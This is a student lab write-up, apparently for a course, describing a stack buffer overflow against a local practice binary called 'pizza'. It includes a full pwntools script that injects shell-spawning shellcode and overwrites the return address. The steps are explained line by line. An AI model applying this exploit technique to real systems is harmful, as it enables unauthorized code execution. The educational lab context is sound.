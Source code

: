 # Summary

This week's assignment requires us to create a python script that exploits our victim program 'pizza' by gaining access to the programs memory stack. The exploit will leak the stack offset of the program. Determine the offset of the return address on the stack, inject shellcode into the victim program, and overwrite the return address with the address of the shellcode, allowing for the successful spawn of a shell. To achieve this, the following steps must be completed:

1. Analyze the Victim Program: To start, we analyze the 'pizza' program to understand its behavior and determine any potential vulnerabilities. By examining the program's source code in ghidra, and by testing the program upon execution, we discovered a buffer overflow vulnerability. 
2. Find the Stack Offset: By sending overloaded strings of input into the program's getname function, we are able to get the program to crash and create a core dump file. This step is important in gathering information about the offset and where the return address is stored on the stack.
3. Print the Stack with Indicators: Next, using pwntools we are able to use the core file to gather information about the stack and print the stack with an indicator that shows us where the rsp is located 
4. Payload: Now that we have gathered the location of the offset and the determined where the program's return address is located in memory we can craft a payload that will overflow the buffer and overwrite the return address with the shellcode.
5. Executing the shellcode: Upon execution of the payload the program redirected control flow to our shellcode instead of the original return address. As a result, the shellcode was executed and spawned a shell providing us with interactive access to the victim's program enviorment.


# Python Code:

```
from pwn import *

context.log_level = 'error'

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

# Shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

# Shellcode Information
print(f"Shellcode: {shellcode.hex().upper()}")
print(len(shellcode))


# Print the stack with indicator at rsp
def print_stack(core):
    rsp = core.rsp
    range_size = 128
    start = rsp + range_size
    end = rsp - range_size

    print("Stack contents:")
    for addr in range(start, end, -8):
        if addr == rsp:
            print(f"{hex(addr)} <--- rsp")
        else:
            print(hex(addr))

# Start the Victim Process
victim = process("./pizza")
print(str(victim.recvline(), "latin-1"))


# victim.recvline()
#victim.sendline(b"10")

# Overflow the Buffer
overflow_input = b'A' * 248  # Adjusted length new return address

core = victim.corefile

# Calculate the address
rsp_address = core.rsp

# Convert rsp_address to bytes
rsp_address_bytes = p64(rsp_address)

# Payload
payload = overflow_input + rsp_address_bytes + shellcode

# Print payload information
print("Payload:", payload)
print("Payload length:", len(payload))

victim.sendline(payload)

# Wait for the program to crash
victim.wait()

# Call the function to print the stack with indicator at rsp
print_stack(core)

# Disassemble the instruction at the address stored in rip
instruction_bytes = core.read(core.rip, 8)
instruction_disassembly = disasm(instruction_bytes, arch='amd64')
print("Disassembled instruction:", instruction_disassembly)

# Print the memory content at the stack pointer
print("Memory content at rsp:", hex(core.rsp))
rsp_content = core.read(core.rsp, 100)
print(rsp_content)

# Interactive Shell
victim.interactive()

# Close the target program
victim.close()
```

# Code Explanation:

- We start by importing the necessary pwntools libraries. pwn provides functions for interacting with binary programs. We also set the log level to 'error' to suppress unnecessary output.

- The 'ELF' class is used to load information about the victim program from its executable file

- The shellcode is generated using the 'asm' function and the 'shellcraft' module. This is designed to spawn a shell when executed properly.

- We then print the shellcode information as a hexadecimal string and its length.

- The stack print function 'print_stack' is used to print the contents of the stack, with an indicator that points at the stack pointer (rsp).

- The victim program 'pizza' is started as a new process, and the first output function 'getname' from the program is received.

- The program then constructs the payload to exploit the buffer overflow vulnerability. It consists of padding bytes, the address of rsp, and the shellcode.

- Then the payload information is printed along with its length.

- The payload is sent to the victim program to trigger the buffer overflow.

- The code then waits for the program to crash.

- The print_stack function is called to print the contents of the stack along with the indicator at the rsp.

- The instruction at the address stored in the rip is dissembled and printed

- The memory contents at the stack pointer rsp are printed

- The victim program is now overtaken with the spawned shell and the interactive session is called.

- The victim program is closed.
